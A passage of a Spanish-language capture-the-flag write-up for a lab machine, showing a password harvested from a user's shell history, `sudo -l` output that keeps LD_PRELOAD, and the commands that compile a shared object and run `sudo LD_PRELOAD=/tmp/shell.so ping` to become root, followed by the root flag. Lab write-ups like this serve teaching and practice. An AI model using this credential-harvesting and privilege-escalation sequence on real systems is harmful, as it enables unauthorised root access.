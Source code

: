 ```
cat .bash_history 
cat .bash_logout 
nano .bashrc 
ls -al
```

Vemos que la contraseña de este usuario es `MyStrongestPasswordYet$4291`

Si hacemos `sudo -l` sabiendo ya la contraseña...

```
Matching Defaults entries for saad on m4lware:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User saad may run the following commands on m4lware:
    (root) /usr/bin/ping
```

Podremos hacer `ping` como root, por lo que si hacemos lo siguiente...

En esa pagina te inica lo que puedes hacer, en nuestro caso utilizaremos `ping`

URL = https://www.hackingarticles.in/linux-privilege-escalation-using-ld\_preload/

```shell
nano <FILE>.c

gcc -fPIC -shared -o shell.so <FILE>.c -nostartfiles

ls -al shell.so

sudo LD_PRELOAD=/tmp/shell.so ping
```

Con esto ya seriamos `root`, leemos la flag de root...

> root.txt (flag2)

```
992bfd94b90da48634aed182aae7b99f
```
